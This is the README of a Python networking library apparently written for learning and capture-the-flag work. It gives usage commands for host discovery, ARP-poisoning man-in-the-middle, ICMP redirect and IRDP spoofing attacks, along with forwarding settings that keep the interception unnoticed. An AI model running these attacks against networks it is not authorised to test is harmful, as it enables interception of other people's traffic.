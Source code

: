 # Agave

Agave aims to provide "primitives" to speed up the development of "proof of work" and "capture the flag" security related scripts concerning networking. Efficiency and best practice are not the main goal, ease of reuse is.

It started as a collection of scripts shared to show some knowledge of networking to potential recruiters. Now is migrating towards a library to build customizable tools to combine together to enact more complex scenarios. Yet general purpose scripts are still included as they are both an "how to" guide of the library, and "primitives" themselves.

The main motivation behind the development of the project comes from the curiosity to learn more about network protocols and vulnerabilities. Agave is a byproduct of learning-by-doing.

## Usage of the CLI scripts
These scripts use raw socket, thus Linux and SUDO privileges are required to run them.

### NIC
```
# List all network interfaces.
python3 -m agave.nic.interfaces

# Print info for a network interface.
python3 -m agave.nic.interfaces <interface>
python3 -m agave.nic.interfaces wlan0
```

### ARP
```
# Resolve a MAC.
python3 -m agave.arp.resolve <IP>
python3 -m agave.arp.resolve 192.168.1.1

# Hosts discovery.
python3 -m agave.arp.discover <interface> [subnet]
python3 -m agave.arp.rdiscover <interface> [subnet]	# Slower version
python3 -m agave.arp.discover wlan0					# Search all the subnet
python3 -m agave.arp.discover wlan0 192.168.1.0/24	# Different subnet, or portion of it

# Listen incoming messages to discover hosts, and interaction between them.
python3 -m agave.arp.listen

# Man in the middle.
python3 -m agave.arp.mitm <interface> <alice> <bob>
python3 -m agave.arp.mitm eth0 192.168.1.1 192.168.1.5
```

##### Note on the Man in the middle
If working, you'll be able to sniff the traffic exchanged by the victims. In order to allow the victims to keep communicate with each other, you need to enable IP forwarding. Disable forwarding might be used to prevent communications.
```
# Set to 0 to stop forwarding
sudo sysctl net.ipv4.ip_forward=1
```
If working, you'll be able to see the poisoned entry in the ARP table. You'll probably notice two entries with the same MAC address. On Linux, you can check it with:
```
arp
```

### ICMP

#### Hosts discovery
```
python3 -m agave icmp discovery {subnet}
python3 -m agave icmp discovery 192.168.1.0/24
```

#### Host redirect
```
python3 -m agave icmp redirect {target} {attacker} {victim} {gateway}
```
Example: redirects 192.168.0.3's (victim) messages for Google server DNS (target) to 192.168.0.2 (attacker). 192.168.0.1 is the router the victim is gonna use to reach the target.
```
python3 -m agave icmp redirect 8.8.8.8 192.168.0.2 192.168.0.3 192.168.0.1
```
The command above is enough to get a couple of messages from the victim. But your system will not forward the messages to their destination, and will tell the victim to use another router to reach the destination instead. So you'll need also to:
```
# Enable forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/conf/*/forwarding
# Prevent your system from redirecting the victim back to the right router
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### IRDP
I've never tried this one, I saw it and decided to implement it. I just know the messages format is correct (or at least it is for Wireshark).

#### Solicitation
You need to use a sniffer to listen for replies.
```
python3 -m agave.irdp.solicit
```

#### Advertise
General command to advertise a list of routers.
```
python3 -m agave.irdp.advertise {preference} {router_1_ip} ... {router_n_ip}
```
Example:
```
python3 -m agave.irdp.advertise 100 192.168.1.10 192.168.1.20
```
